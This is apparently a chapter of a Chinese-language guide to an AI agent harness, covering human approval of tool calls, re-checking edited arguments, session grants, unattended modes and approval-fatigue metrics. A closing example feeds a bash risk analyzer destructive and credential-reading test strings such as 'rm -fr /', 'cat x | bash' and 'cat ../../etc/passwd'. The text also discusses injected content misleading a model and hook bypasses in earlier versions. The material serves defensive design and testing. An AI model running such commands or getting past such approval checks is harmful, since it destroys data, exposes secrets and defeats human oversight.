rec = self.store.create_approval(ApprovalRecord(
    id=new_id("ap_"), run_id=run_id, session_id=session_id, call_id=call_id, tool=tool, args=args,
    summary=summary, risk=risk, reason=reason, status="pending", expires_at=now() + self.timeout,
))
fut: asyncio.Future[ApprovalDecision] = asyncio.get_running_loop().create_future()
self._waiters[rec.id] = fut
try:
    if on_created is not None:
        await on_created(rec)
    # ... 可选 resolver（CLI 在终端里问）；on_created 负责发 approval_request 事件、把 Run 迁移到 waiting_human
    try:
        return await cancel.guard(asyncio.wait_for(asyncio.shield(fut), self.timeout))
    except asyncio.TimeoutError:
        if self.store.resolve_approval(rec.id, "expired", decided_by="system:timeout", reason="审批超时"):
            return ApprovalDecision(False, by="system:timeout", reason=f"审批在 {self.timeout:.0f}s 内未得到答复，默认拒绝")
        return self._from_record(rec.id)  # 与超时同时到达的人工决定胜出
except RunCancelled:
    self.store.resolve_approval(rec.id, "expired", decided_by="system:cancel", reason="运行已取消")
    raise
```

逐条看设计意图：

- **waiting_human 是一个 Run 状态，而不是一个阻塞的 HTTP 请求。** 浏览器关掉再打开，`GET /api/approvals` 仍能列出待审批项；
  Run 记录上的状态让调度器和 UI 都知道“它在等人”，而不是“它卡住了”（状态机见 [10 Run 生命周期状态机](/reliability/run-lifecycle)）。
  要注意等待本身依赖进程内的 future：进程崩溃后，恢复流程会把该 Run 的 pending 审批置为 `expired`（`system:recover`），
  Run 恢复后重新走到这次调用时会再发起一次审批。
- **CAS 决定一次。** `Store.resolve_approval` 的 SQL 带 `WHERE id=? AND status='pending'`，返回受影响行数是否为 1。
  人工批准、超时、取消三者并发到达时只有一个生效；`test_approval_edit_args_revalidated` 里第二次 resolve 返回 False。
- **超时默认拒绝。** 默认 600 秒（`PermissionConfig.approval_timeout`）。拒绝而不是放行，是因为“没人看”不等于“有人同意”。
- **人工决定与超时同时到达时，人工胜出。** 超时分支的 CAS 失败说明人工决定已经先写入了，于是 `_from_record` 从库里读回人的决定。
- **取消时审批作废。** `test_cancel_during_approval_wait` 验证：取消后没有残留的 pending 审批，文件也没有被写入。

### 执行器侧：拒绝回灌、改参复检、会话授权

```python
if not dec.approved:
    why = f"：{dec.reason}" if dec.reason else ""
    return done(ToolResult.error(f"用户拒绝了该操作{why}。请调整方案（例如改用只读方式），或询问用户的意图。"), "rejected")
if dec.edited_args:
    new_args, errs = validate(tool.parameters, dec.edited_args)
    if errs:
        return done(ToolResult.error("审批人修改后的参数未通过校验：\n" + "\n".join(errs)), "invalid")
    args = new_args
    recheck = rc.permissions.evaluate(tool, args, tainted=rc.tainted, grants=rc.grants)  # 防 TOCTOU
    if recheck.decision == Decision.DENY:
        return done(ToolResult.error(f"修改后的参数被权限策略拒绝：{recheck.reason}"), "denied")
    if rc.hooks.has(HookEvent.PRE_TOOL_USE):
        # 审批人改过的参数同样要过 PreToolUse 守卫：hook 表达的是“不变量”，人工批准不能绕过它
        again = await rc.hooks.run(HookEvent.PRE_TOOL_USE, self._hook_input(HookEvent.PRE_TOOL_USE, call.name, args))
        if again.decision == "deny":
            return done(ToolResult.error(f"修改后的参数被 PreToolUse hook 拒绝：{again.reason}"), "denied")
        # ... hook 的 updated_input 同样生效（并重新做 schema 校验）
if dec.remember:
    g = grant_for(tool, args)
    rc.grants.append(g)
    self._persist_grants()
```

- **拒绝理由回给模型。** 拒绝不是异常，而是一条 `is_error` 的工具结果，附带审批人的理由和建议（“改用只读方式，或询问用户的意图”）。
  模型读到“不要写到根目录，写到 out/ 下”就能自己修正，而不是盲目重试。
- **改参后重新校验和判定（防 TOCTOU）。** 审批人能直接改参数，比如把通知收件人从 `all-staff` 改成 `ops-team`。
  “检查时”和“使用时”之间参数变了，就必须重新检查：schema 校验防止改出非法参数，权限判定防止改出 deny 的动作
  （比如把路径改到 `.ssh/` 下）。重新判定为 ask 时不再二次询问——审批人已经看过修改后的版本。
- **改参后 PreToolUse hooks 再跑一遍。** 权限规则之外，团队的不变量常写在 hook 里（“不许写证书文件”“清单只能改 passes 字段”）。
  人批准的是卡片上那次调用，不等于授权违反这些不变量；早期版本不重跑 hook，审批人改个路径就能绕过。
  第二轮只认 `deny`，hook 的 `updated_input` 照样生效。`tests/test_security.py::test_edited_args_rerun_pre_tool_hooks`：
  hook 对 `a.txt` 返回 ask，审批人把路径改成 `key.pem` 后批准，结果是 `denied`，文件没有写出。
- **耗时分开统计。** `tool_end` 的 `details.approval_wait_ms` 记录等待审批的时间，`duration_ms` 只统计执行本身。
  否则“等了 10 分钟审批”会被误读成“工具执行了 10 分钟”，污染性能分析。

### 审批的是“真实动作”

审批卡片展示的是 `args`（审批人还能直接编辑），摘要 `describe_call()` 也从参数生成，而不是模型在回复里写的“我只是清理一下缓存”。
模型的自我描述可能出错，在被注入的情况下更可能是刻意误导；只有参数才是将要执行的东西。
参数回答“要做什么”，却不直接回答“会改成什么样”：一条 `edit` 的 `old_string` / `new_string` 脱离上下文很难判断，
一条 `write` 的 `content` 有几百行时更没人会逐行看。所以 `Tool` 提供了可选的 `preview(args, ctx)`，执行器在 ask 时、创建审批对象之前调用它：

```python
if decision == Decision.ASK:
    preview = tool.preview(args, ctx)
    dec = await rc.approvals.request(
        # ...
        on_created=lambda rec: self._on_approval_created(rec, publish, perm, preview),
    )
```

`write` 和 `edit` 实现了它，返回将要发生的 unified diff（`edit` 的预览）：

```python
def preview(self, args: dict[str, Any], ctx: ToolContext) -> str | None:
    try:
        p = _resolve(ctx, args["path"], allow_outside=True)
        text = _read_text_strict(p)[0] or ""
        old_s, new_s = args.get("old_string", ""), args.get("new_string", "")
        if not old_s or old_s not in text:
            return None
        new_text = text.replace(old_s, new_s) if args.get("replace_all") else text.replace(old_s, new_s, 1)
        return _diff(text, new_text, ctx.workspace.rel(p))
    except Exception:
        return None
```

几个取舍：预览是 **尽力而为** 的——任何异常、找不到 `old_string` 都返回 `None`，审批照常进行，只是卡片上没有 diff；
`write` 对不存在的文件以空内容为基准，新建文件显示为全量新增；`_diff` 超过 400 行截断，事件里再截到 8000 字符，避免一个大文件撑爆事件流。
注意预览是在审批 **之前** 按当时的文件内容算的：审批期间文件被外部修改时，如果模型之前读过它，`_check_stale` 会让执行失败并要求重新 read；
否则实际结果可能与审批人看到的 diff 不同。
`tests/test_security.py::test_approval_request_carries_diff_preview` 断言 `approval_request` 的 `preview` 里同时有 `-x = 1` 和 `+x = 2`。

### 会话级授权：降低审批疲劳

选择“本会话总是允许”时，`grant_for()` 生成一条 `source="session"` 的 allow 规则，写入会话元数据，之后每次 Run 都会加载：

| 工具 | 生成的授权 | 例子 |
|---|---|---|
| bash | 前两个词 + `*` | `pytest -q tests` → `allow:bash(pytest -q*)` |
| 文件工具 | 具体路径 | `allow:write(src/a.py)` |
| 其它 | 整个工具 | `allow:send_notification` |

粒度越窄越安全，但窄到每次都要重新批就失去意义。“前两个词”是一个折中，它的边界值得了解：

- `git push origin main` → `allow:bash(git push*)`：之后 `git push origin dev` 直接放行；但 `git push --force` 仍会问，
  因为 dangerous 升级发生在规则命中之后；
- `npm install left-pad` → `allow:bash(npm install*)`：之后安装 **任何** 包都放行，这在供应链意义上是一次很宽的授权；
- 复合命令仍受“每段都要覆盖”约束，授权了 `pytest -q*` 不会让 `pytest -q && curl ...` 放行。

## 无人值守模式

CI、批处理、定时任务里没有人能点“批准”。`PermissionConfig.on_ask` 决定 ask 如何处理：

| `on_ask` | 行为 | CLI 入口 |
|---|---|---|
| `wait`（默认） | 创建审批对象，等待人工 | `flywhl chat` / `flywhl serve` |
| `deny` | 直接拒绝，不创建审批对象（`by="policy:auto_deny"`） | `flywhl run --json` 在未指定时自动设为 deny |
| `allow` | 直接放行（`by="policy:auto_allow"`） | `flywhl run --yes` |

`on_ask="allow"` 放行的是 **所有** 判定为 ask 的调用，包括被命令分析升级的 dangerous 命令和被污点升级的副作用操作，
剩下的防线只有 deny 规则。所以 CI 中更稳妥的组合是 `on_ask="deny"` 加上一组显式的 allow 规则（明确列出允许的测试、构建命令），
或者 bypass 模式加上一次性沙箱——让“全放行”发生在用完即弃的环境里。

## 审批疲劳如何量化

审批太多，人会开始不看就点批准，人审就形同虚设。这件事可以度量，数据都在 `approvals` 表和事件流里：

| 指标 | 计算方式 | 信号 |
|---|---|---|
| 审批率 | 审批数 / 工具调用总数 | 过高说明默认姿态太紧，或缺少 allow 规则 |
| 批准率 | approved / (approved + rejected) | 长期接近 100% 的同类审批应该转成规则 |
| 拒绝率 | rejected / 已决定 | 偏高说明模型方向常常不对，应在提示词或 plan 模式上下功夫 |
| 平均 / P90 等待时长 | `decided_at - created_at`，或 `tool_end` 的 `approval_wait_ms` | 等待长说明审批阻塞了交付 |
| 超时率 | expired（`system:timeout`）/ 总数 | 审批通道没人值守 |
| 秒批比例 | 等待 < 2 秒的批准占比 | 很可能没看就点了 |
| 同类重复审批次数 | 按 `grant_for()` 生成的键分组计数 | 同一个键批了 N 次，就是“本会话总是允许”或项目规则的候选 |

```python
from collections import Counter
from flywhl_harness import Store

store = Store(".flywhl/harness.db")         # 默认位于 <工作区>/.flywhl/，以 data_dir 配置为准
aps = store.list_approvals(None)             # 不按状态过滤
decided = [a for a in aps if a.decided_at]
approved = [a for a in decided if a.status == "approved"]
waits = sorted(a.decided_at - a.created_at for a in decided)
print("审批数", len(aps), "批准率", len(approved) / max(1, len(decided)))
print("P90 等待(s)", waits[int(len(waits) * 0.9)] if waits else None)
print("秒批", sum(1 for a in approved if a.decided_at - a.created_at < 2))
print("重复", Counter(a.summary for a in approved).most_common(5))
```

调优的方向始终是：**把人的注意力留给少数真正有风险的动作**。高频且总被批准的，变成规则；高风险的，保持 ask 甚至 deny；
无法静态判断风险的，放进沙箱。

## 与 pi 的对照：权限还是容器

pi 的作者持相反立场：默认不做权限控制。理由是只要 Agent 能写代码、跑代码、访问网络，权限提示就挡不住真正的风险——
上面那张“分析器绕过”表就是例证；他建议把 Agent 放进容器里以“YOLO”方式运行，`permission-gate` 只作为示例扩展存在，
project trust 也只决定加载哪些项目资源，不是安全边界。

两种立场并不矛盾，它们防的是不同的东西：

| 风险 | 容器能否兜住 | 权限 / 人审能否兜住 |
|---|---|---|
| 删除、改坏本地文件 | 能（容器销毁、快照回滚） | 部分（分析器有绕过） |
| 读取宿主机密钥 | 能（密钥不挂进容器） | 部分（基线规则 + 剥离环境变量） |
| 发出去的邮件、推送到远端的代码、调用的生产 API | **不能**，副作用已离开容器 | 能，在动作发生之前 |
| 用注入内容驱动 Agent 外发数据 | 需要出口管控配合 | 污点升级 + 人审 |
| 审批疲劳导致的盲批 | 不涉及 | 会让这一层失效 |

结论是分工：**容器约束本地动作的影响范围，权限与人审守住不可逆的外部动作和凭据。**
在本地开发、副作用局限在工作区的场景里，pi 的做法成本最低；一旦 Agent 能触达生产系统、对外发消息、动用真实凭据，
“动作发生之前由人确认”就是容器替代不了的。本项目的 bypass 模式注释写着“只应在隔离沙箱中使用”，表达的是同一个分工。

## 动手验证

```bash
# 权限相关单元测试：命令分析 15 条、规则优先级、防搭便车、四种模式、污点、会话授权、改参复检
uv run pytest tests/test_policy.py -q
uv run pytest tests/test_cancel.py::test_cancel_during_approval_wait -q

# 包装命令与递归分析（参数化用例）、灾难性命令全模式拒绝、工作区外读取需确认、网络输出污点持久化、
# 改参重跑 PreToolUse、审批 diff 预览
uv run pytest tests/test_security.py -q -k "analyzer or catastrophic or outside_read or taints or rerun_pre_tool or diff_preview"

# 命令风险分析表、四模式判定矩阵、审批人改参后批准
uv run python examples/05_hooks_permissions.py
```

自己试一试命令分析器（把 `/tmp/ws` 换成任意目录）：

```python
from flywhl_harness.policy.bash_analyzer import analyze

for cmd in ["git status && git diff", "ls 'a;rm -rf ~'", "rm -fr /", "echo hi > /tmp/ws/out.txt",
            "cat x | bash", "env rm -rf ~", "bash -c 'git status'", "cat ~/.bashrc", "curl -s https://example.com",
            "cat ../../etc/passwd"]:
    a = analyze(cmd, "/tmp/ws")
    print(f"{cmd:32} {a.level:9} catastrophic={a.catastrophic} network={a.network} {a.reasons[:1]}")
```

在 Web UI 里观察人审：`flywhl serve -w playground`，会话页头的权限模式保持“默认”（default），输入“创建 hello.py”，
会出现审批卡片；修改卡片里的参数后批准，确认实际写入的是修改后的版本；再选一次“本会话总是允许”，观察 notice 里生成的授权规则。

## 小结

- 权限是纵深防御中的一层：模式给默认姿态，规则做显式声明，命令分析细化 bash，污点做动态升级，沙箱兜底。
- 灾难性命令（删根/家目录、格式化、写块设备、fork 炸弹）在一切规则与模式之前直接 deny，bypass 也放不过。
- 规则按 deny → ask → allow 先命中者生效；bash 的 allow 必须覆盖每一段，防止复合命令搭便车。
- 命令分析器用词法切分和逐段分级代替正则：剥包装命令、递归分析 `sh -c`/`eval`、工作区外路径即使只读也要确认，
  无法静态分析的一律保守；剩下的绕过依赖运行时状态（变量、脚本内容），它不是安全边界。
- 污点来自网络命令、未声明封闭的 MCP 工具和被污染的子代理，写入会话元数据，暂停恢复后依然有效。
- 人审的要点：持久化的审批对象、waiting_human 状态、超时默认拒绝、CAS 只决定一次、改参后重新校验与判定并重跑 PreToolUse、
  拒绝理由回灌、审批真实参数和 diff 预览而非模型描述。
- 会话授权与规则用来对抗审批疲劳，审批率、批准率、等待时长、重复审批次数让疲劳可以被度量。
- 容器约束本地影响范围，权限与人审守住不可逆的外部动作，两者分工而非二选一。

下一章看兜底的那一层：[18 Workspace 与沙箱](/governance/workspace-sandbox)。
